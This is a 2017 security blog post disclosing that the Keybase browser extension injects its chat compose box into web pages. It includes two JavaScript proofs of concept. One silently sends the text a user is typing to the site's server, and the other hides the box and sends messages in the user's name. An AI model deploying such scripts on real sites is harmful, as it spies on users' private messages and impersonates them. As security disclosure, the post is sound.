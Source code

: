 ```yaml
---
title: "Keybase Browser Extension Insecure"
date: Sat, 05 Aug 2017 10:26:45 GMT
draft: false
type: posts
---
```

# Keybase Browser Extension Insecure





Yesterday, I discovered that Keybase has a browser extension for both Firefox and Chrome. It activates whenever you land on a profile page on keybase.io, or a website which Keybase uses for proofs (currently Reddit, Twitter, Facebook, Github, Hacker News). It places a “Keybase Chat” button on the page. When

Yesterday, I discovered that [Keybase](https://keybase.io) has a browser extension for both [Firefox](https://firefox.com) and Chrome. It activates whenever you land on a profile page on keybase.io, or a website which Keybase uses for proofs (currently Reddit, Twitter, Facebook, Github, Hacker News). It places a “Keybase Chat” button on the page. When you press this button, a compose window opens, you enter a message, and then the addon contacts your keybase desktop app in order to send a message to that user.

If you are lucky enough to discover the extension by visiting [https://keybase.io/docs/extension](https://keybase.io/docs/extension) and by actually reading the content of the page, you will come across this little bit of information:

> “The Keybase extension uses a compose box inside your browser. If you fear your browser or the social network site’s JavaScript has been compromised – say by another extension or even the social network acting fishy – then just compose the message inside the Keybase app directly. Or send a quick hello note through the extension and save the jucier private details for inside the app.”

This information is **not** on the Firefox or Chrome extension stores.

But what does it _actually_ mean?

It means that Reddit, Twitter, Facebook, Github, Hacker News, Keybase and any other site that they allow to execute JavaScript on their pages can perform the following actions if you visit their websites with the addon installed:

1.  Read any message that you type into the compose box, as you’re typing it.
2.  Send chat messages from you to other Keybase users.

For #1, to read the messages you are composing they simply need to serve up a small amount of JavaScript similar to the following when you visit:

```
if (document.querySelector('.keybase-chat')) {
  let msg = '';
  setInterval(() => {
    const t = document.querySelector('.keybase-reply textarea');
    if (!t || t.value.length === 0 || t.value === msg) return;
    msg = t.value;
    fetch('/report-keybase-chat?msg=' + encodeURIComponent(msg));
  }, 1000);
}
```

In the above code, the first line detects if the user has the keybase addon. If they do, it runs a check on a 1 second interval to see if there is a Keybase composer window open with a message in it. If there is, and the message being composed is different to what it was 1 second ago, then an ajax request is performed to send the content of that message to the server.

For #2, to send a message to a keybase user silently:

```
function sendKeybaseMessage(msg) {

  const s = document.createElement('style');
  s.type = 'text/css';
  s.textContent = '.keybase-reply{opacity:0 !important}';
  document.head.appendChild(s);

  document.querySelector('.keybase-chat').click();
  document.querySelector('.keybase-reply textarea').value = msg;
  const event = new UIEvent('change', { view: window, bubbles: true, cancelable: true });
  document.querySelector('.keybase-reply textarea').dispatchEvent(event);
  document.querySelector('.keybase-reply input[name="keybase-submit"]').click();
  document.querySelector('.keybase-close').click();
  s.remove();

}
```

The “style” related code is there to make sure that the user doesn’t notice the compose window opening and being filled with a message, and the message being sent, by making it invisible temporarily. To specify a recipient other than the one in the profile being viewed, a little more work would need to be done by the server to temporarily redirect you to a different profile page, but it would work.

The troubling thing is, they could actually have made this secure. As well as the chat functionality that they inject into the browsers DOM, they also add a Keybase icon into the browser UI it’s self, outside of the DOM. Clicking on that icon works exactly the same, except it doesn’t inject anything into the DOM, the compose window is outside of the webpage, making it obvious that the browser is in control rather than the webpage. The textarea can not be read and it can not be interacted with from JavaScript.

**Conclusion** : Continue installing and using the excellent desktop app. Don’t even think about installing the browser addon.

[![](https://www.grepular.com/images/amazon/yubikey_nano.jpg)](https://www.grepular.com/redir?key=amazon_yubikey_nano "Yubikey Nano") [![](https://www.grepular.com/images/amazon/saving_bletchley_park.jpg)](https://www.grepular.com/redir?key=amazon_saving_bletchley_park "Saving Bletchley Park")

#### [Source](https://www.grepular.com/Keybase_Browser_Extension_Insecure)

<br/>
---
